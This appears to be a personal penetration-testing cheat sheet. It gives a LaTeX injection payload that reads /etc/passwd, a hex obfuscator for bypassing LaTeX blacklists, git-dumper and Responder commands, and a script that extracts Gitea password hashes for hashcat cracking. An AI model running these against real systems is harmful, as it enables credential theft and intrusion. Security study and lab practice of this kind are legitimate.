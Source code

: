 # Misc

## Basic Kali install
```bash
sudo apt install terminator ghidra seclists zaproxy gobuster
```

## Git Dumper
```bash
pip install git-dumper
git-dumper https://<host>/.git ./out
```

## LaTeX
- [Payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LaTeX%20Injection/README.md)

Basic file read
```latex
\documentclass[12pt]{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/etc/passwd}
\end{document}
```

### Bypass blacklist/whitelist
Js script to obfuscate LaTeX as hex values
```js
// leetLatexObfuscator.js
const fs = require('fs')
const args = process.argv.slice(2);
const scriptContent = fs.readFileSync(args[0]).toString()
const parsed = scriptContent.split('\n').map(line => line.split('').map(char =>  "^^" + Number(char.charCodeAt(0)).toString(16)).join('')).join("\n")
fs.writeFileSync(args[1], parsed)
```
```bash
node leetLatexObfuscator.js input.txt output.txt
```

## Dotnet

```bash
dotnet new console -n Honk
dotnet build
dotnet run
dotnet publish -c Release
dotnet publish -c Release -r win-x64 --self-contained -p:PublishSingleFile=true -p:PublishTrimmed=true
```

```xml
<!-- for dll -->
<Project Sdk="Microsoft.NET.Sdk">
  <PropertyGroup>
    <AssemblyName>Honk</AssemblyName>
    <OutputType>Library</OutputType>
    <!-- netstandard2.0 for compatibility -->
    <TargetFramework>netstandard2.0</TargetFramework>
  </PropertyGroup>
</Project>
```

## Responder
HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server
- [responder](https://github.com/lgandx/Responder)
- [responder kali](https://www.kali.org/tools/responder/)
```
responder -I tun0 -wA
```

## PDF stuff

### Create empty pdf
```bash
convert xc:none -page A4 empty.pdf
```

### Empty pdf MIME
```
%PDF-1.2 
1 0 obj
<<
/Title (empty)
/CreationDate (D:20231107231620)
/ModDate (D:20231107231620)
/Producer (xxxx)
>>
endobj
%%EOF
```

## Gitea
### DB to hashcat
```python
import sqlite3
import base64
import sys

if len(sys.argv) != 2:
    print("Usage: python hacc.py <gitea-db-file>")
    sys.exit(1)

try:
    con = sqlite3.connect(sys.argv[1])
    cursor = con.cursor()
    cursor.execute("SELECT name,passwd_hash_algo,salt,passwd FROM user")
    for row in cursor.fetchall():
        if "pbkdf2" in row[1]:
            algo, iterations, keylen = row[1].split("$")
            algo = "sha256"
            name = row[0]
        else:
            raise Exception("Unknown Algorithm")
        salt = bytes.fromhex(row[2])
        passwd = bytes.fromhex(row[3])
        salt_b64 = base64.b64encode(salt).decode("utf-8")
        passwd_b64 = base64.b64encode(passwd).decode("utf-8")
        print(f"{name}")
        print(f"{algo}:{iterations}:{salt_b64}:{passwd_b64}")
        print("")

except Exception as e:
    print(f"Error: {e}")
    sys.exit(1)
```
```
hashcat -m 10900 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```
